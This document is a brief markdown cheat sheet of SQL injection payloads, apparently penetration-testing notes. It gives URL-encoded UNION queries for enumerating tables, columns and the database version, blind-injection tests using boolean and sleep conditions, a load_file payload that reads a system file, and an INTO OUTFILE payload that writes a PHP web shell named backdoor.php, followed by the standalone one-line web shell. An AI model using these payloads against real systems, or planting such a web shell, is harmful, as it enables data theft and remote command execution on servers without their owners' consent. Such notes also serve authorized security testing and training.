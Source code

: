 # SQL Injection

### Enumerating the Database (using union statements)
```
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,table_name,6%20from%20information_schema.tables
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,@@version,6
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,5,6
http://10.x.x.x/comment.php?id=782%20union%20all%20select%201,2,3,4,column_name,6%20from%20information_schema.columns%20where%20table_name=%27users%27
```

### Blind SQL Injection
```
http://10.x.x.x/comment.php?id=782%20and%201=1 (and 1=1)
http://10.x.x.x/comment.php?id=782-sleep(5) (-sleep(5))
```

### load_file Function
```
http://10.11.14.19/comment.php?id=782%20union%20all%20select%201,2,3,4,load_file(“c:/windows/system32/drivers/etc/hosts”),6

```
### into OUTFILE
```
Into OUTFILE
http://10.11.14.19/comment.php?id=782%20union%20all%20select%201,2,3,4,%22%3C?php%20echoshell_exec($_GET[%27cmd%27]);?%3E%22,6%20into%20OUTFILE%20%27c:/xampp/htdocs/backdoor.php%27
```

### PHP One-Liner
```
<?php echo shell_exec($_GET['cmd']);?>"
```
